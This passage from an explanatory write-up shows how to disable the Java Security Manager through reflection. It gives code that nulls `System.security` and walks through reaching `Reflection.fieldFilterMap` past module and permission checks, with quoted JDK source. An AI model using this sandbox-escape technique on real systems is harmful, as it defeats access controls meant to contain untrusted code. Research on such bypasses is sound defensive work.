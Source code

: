 ```java
securityField.setAccessible(true);
securityField.set(null, null);
```
Thats it! The security field has been set to null. In other words, the Java Security Manager is disabled. You can check with `System.getSecurityManager() != null`, which will return `false`.

# Optional: Motifying the Filter Map
We can move one step further and remove `security` from `jdk.internal.reflect.Reflection.fieldFilterMap`. However, the `fieldFilterMap` also marks to filter itself, so we need to use solution 1 on `fieldFilerMap`. This solution also requires an additional permission of `accessClassInPackage.jdk.internal.reflect`, otherwise we are not allowed to access packages which are not exported from another module with reflection.
## Obtain `fieldFilterMap` Field
Since we cannot reference `jdk.internal.reflect.Reflection`, we need to use `Class.forName(String)`.
```java
Method getDeclaredFields0M = Class.class.getDeclaredMethod("getDeclaredFields0", boolean.class);
getDeclaredFields0M.setAccessible(true);
Field[] fields = (Field[]) getDeclaredFields0M.invoke(Class.forName("jdk.internal.reflect.Reflection"), false);
Field mapField = null;
for (Field field : fields) 
    if (field.getName().equals("fieldFilterMap")) 
        mapField = field;
```
## Get the Map via Reflection
We don't want to set the field to null, otherwise the filter will malfunction. Instead, get the `Map` and remove the entries.
### Inspect `setAccessible(boolean)`
However, `setAccessible(boolean)` will also explicitly check whether the Reflection class is exported to us, regardless of `accessClassInPackage` permission.
```java
/**
 * @throws InaccessibleObjectException {@inheritDoc}
 * @throws SecurityException {@inheritDoc}
 */
@Override
@CallerSensitive
public void setAccessible(boolean flag) {
    AccessibleObject.checkPermission();
    if (flag) checkCanSetAccessible(Reflection.getCallerClass());
    setAccessible0(flag);
}
```
The first suspicious check is `AccessibleObject.checkPermission()`, which routes to here.
```java
/**
 * The Permission object that is used to check whether a client
 * has sufficient privilege to defeat Java language access
 * control checks.
 */
private static final java.security.Permission ACCESS_PERMISSION =
    new ReflectPermission("suppressAccessChecks");

static void checkPermission() {
    SecurityManager sm = System.getSecurityManager();
    if (sm != null) sm.checkPermission(ACCESS_PERMISSION);
}
```